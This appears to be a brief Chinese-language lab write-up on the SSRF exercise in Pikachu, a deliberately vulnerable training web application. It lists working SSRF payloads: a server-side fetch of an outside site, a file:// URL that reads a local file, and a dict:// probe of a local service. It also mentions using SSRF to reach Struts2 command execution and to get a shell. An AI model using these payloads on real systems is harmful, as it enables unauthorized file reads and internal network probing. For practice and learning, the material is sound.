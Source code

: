 观察 url: `http://<IP address !!!>/pikachu/vul/ssrf/ssrf_curl.php?url=http://127.0.0.1/pikachu/vul/ssrf/ssrf_info/info1.php`

看起来就像远程包含漏洞一样，尝试构造 payload: `http://<IP address !!!>/pikachu/vul/ssrf/ssrf_curl.php?url=http://www.baidu.com`

![image](../../../img/渗透/实验/pikachu/72.png)

SSRF 利用方式有很多,比较常见的是服务端请求其他网站,一种是探测内网敏感信息,还有就是攻击 web 应用,主要是 strust2 远程命令执行,还有一些中间件的 getshell.

payload: `http://<IP address !!!>/pikachu/vul/ssrf/ssrf_curl.php?url=file:///c:/1.txt`

payload: `http://<IP address !!!>/pikachu/vul/ssrf/ssrf_curl.php?url=dict://127.0.0.1:80/info`

![image](../../../img/渗透/实验/pikachu/73.png)
